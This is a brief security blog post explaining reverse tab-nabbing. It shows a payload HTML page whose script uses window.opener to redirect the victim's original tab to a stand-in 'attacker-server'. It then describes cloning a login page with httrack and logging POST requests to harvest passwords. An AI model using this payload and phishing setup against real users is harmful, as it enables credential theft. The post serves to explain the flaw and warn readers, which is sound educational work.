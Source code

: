 [back](/blog)

### Tab-nabbing attack to stealing creds

Imagine that clicking on the received link from a trusted user is normal =)

Despite all the irony, this behavior is quite typical for ordinary users who do not think about how safe the code of web applications that are open in their browser, in numerous tabs, is written.
This is about **Tab-nabbing** attack. The essence of which is to open a new tab in the victim's browser, the link to which is indicated with html tag **target="_blank"** attribute, but without **rel="noopener nofollow"** tag.

```
<a href="https://anylink.com target="_blank"> GoToAnyLink </a>
```

In this case **something.html** page is opened in the victim's browser with the code:

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace ('http://attacker-server/index.html');
if (window.parent! = window) window.parent.location.replace ('http://attacker-server/index.html');
</script>

Hi dude =)<br>
Check my notes

</html>
```

![Image](/img/tabnabbing/1.png)

Any vulnerable navigation to a new tab in the browser where the code is delimited by the tag **target ="_blank"** will be redirected to the page **http://attacker-server/index.html**.

![Image](/img/tabnabbing/2.png)

At the same time, the attacker can clone the authorization page to the vulnerable page using **httrack** or any similar utility. In this case, unnoticed by the victim, a transition will be made to the tab with the vulnerable site. As a rule, in such cases, the victim enters his username and password, assuming that the timed out session has expired. As a result, the attacker can easily obtain the victim's login and password using a web server with the ability to log POST requests.

![Image](/img/tabnabbing/3.png)

Thus, the attacker receives a username and password from the victim with a minimum set of tools and time spent. In total for the attack you need: a web server with the ability to log POST requests, a phishing web page for authorization and a payload in the form of an html file

![Image](/img/tabnabbing/4.png)

That's all friends, watch the tabs in the browser and the links you click on =)

Links:
+ [https://hackerone.com](https://hackerone.com/reports/179568)
+ [How to dump post request with python](https://georgik.rocks/how-to-dump-post-request-with-python)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)